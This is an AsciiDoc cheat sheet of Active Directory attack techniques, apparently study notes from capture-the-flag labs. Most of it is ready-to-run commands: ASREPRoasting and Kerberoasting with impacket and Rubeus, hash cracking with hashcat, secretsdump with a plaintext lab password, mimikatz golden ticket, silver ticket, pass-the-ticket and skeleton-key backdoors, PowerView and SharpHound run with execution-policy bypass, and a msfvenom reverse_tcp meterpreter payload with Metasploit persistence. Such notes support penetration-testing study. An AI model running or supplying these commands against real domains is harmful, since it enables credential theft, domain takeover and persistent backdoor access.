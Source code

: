 = Active Directory

== Enumeration
Use `nmap`, `kerbrute`, `rubeus` or `enum4linux`.

If kerberos, use `kerbrute` to find username.

== Attack

=== Abusing Kerberos
Abuse a feature within Kerberos with an attack method called ASREPRoasting.

ASREPRoasting = user account has the privilege "Does not require Pre-Authentication"; the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

Use "GetNPUsers.py" of `impacket`.

`GetNPUsers.py -no-pass -usersfile valid_users.txt -dc-ip 10.10.188.91 spookysec.local/`

If you find one, find hash type in https://hashcat.net/wiki/doku.php?id=example_hashes[hashcat - hash types]

krb5asrep for Kerberos is 18200, copy the hash found and crack it with `hashcat`

`hashcat -m 18200 hash.txt passwordlist.txt`

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out.

Use `smbclient` to list shares: `smbclient -L 10.10.188.91 -U svc-admin`

Connect to the share and browse: `smbclient \\\\10.10.188.91\\backup -U svc-admin` then get file using `get`.

=== Elevation Privilege
If an account found in enumeration has the permission that allows all Active Directory changes to be synced with this user account, we can get password hashes. Possible to have that with a backup account.

Use tool `secretdump.py` from impacket.

`secretsdump.py spookysec.local/backup:backup2517860@10.10.188.91`

With the hashes, we can just use `evil-winrm` tool with pass-the-hash attack to access the users.

=== Attacking kerberos
How to escalate your privileges to a domain admin by attacking Kerberos and allow you to take over and control a network.

=== Harvesting & Brute-force tickets
Use `rubeus`

* `Rubeus.exe harvest /interval:30`
* `Rubeus.exe brute /password:Password1 /noticket`

=== Kerberoasting
Use `Rubeus.exe kerberoast` or `GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.110.253 -request` (Impacket) to get the hash and try cracking with hashcat.

`hashcat -m 13100 -a 0 hash.txt Pass.txt`

=== AS-REP Roasting
During pre-authentication, users hash will be used to encrypt a timestamp that the domain controller will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request.

After validating the timestamp, the KDC will then issue a TGT for the user. If pre-authentication is disabled, we can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say they are.

`Rubeus.exe asreproast` then `hashcat -m 18200 -a 0 hash.txt Pass.txt`

=== Golden/Silver ticket attacks
Use `mimikatz.exe`

Golden ticket
[source, bash]
----
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
----
Then use this information for `Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:`

For silver ticket, we get the service instead
[source, bash]
----
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:SQLService
----
Then same command (even with golden) but with the info of the service.

=== Pass the ticket
[source, shell]
----
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
kerberos::ptt <ticket>
----

=== Skeleton key attacks
Create a backdoor with mimikatz.exe

Target machine:
[source, shell]
----
mimikatz.exe
privilege::debug
misc::skeleton
----

Attacker machine:
[source, shell]
----
net use c:\\DOMAIN-CONTROLLER\admin$ /usr:Administrator mimikatz
dir \\Desktop-1\c$ /user:Machine1 mimikatz
----

== Post Exploitation

=== PowerView
Once we have a shell on the machine, we can use PowerView to get more information. PowerView needs to be uploaded on the target machine.

[source, bash]
----
powershell -ep bypass
. .\PowerView.ps1
----

=== SharpHound / BloodHound
Once you have a shell on the machine, use `PowerView` or `SharpHound/BloodHound` to find extra informations.

[source, shell]
----
powershell -ep bypass
. .\SharpHound.ps1
(bloodhound v2) Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
(bloodhound v3) .\SharpHound.exe -c all -d CONTROLLER.local --zipfilename loot3.zip
----

=== Server Manager
Built-in windows feature, can be used if we have domain admin to change trusts, add/remove users, groups. This can be an entry point to find other users with other sensitive information on their machines or find other users on the domain network with access to other networks in order to pivot to another network.

Must use RDP.

* look at users (can sometimes see credentials in description)
* event viewer to see the logs

=== Maintain access
Metasploit has persistence module to allow us to create a backdoor service in the system

[source, bash]
----
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe
scp shell.exe user@machine:~
msfconsole > use exploit/multi/handler
msfconsole > set payload windows/meterpreter/reverse_tcp
msfconsole > setg LHOST vpn_ip
msfconsole > run
(target) execute shell.exe
meterpreter > background
msfconsole > use exploit/windows/local/persistence
msfconsole > set session 1
msfconsole > run
----

To get a new shell, we just need to run exploit/multi/handler again.

Mimikatz skeleton key

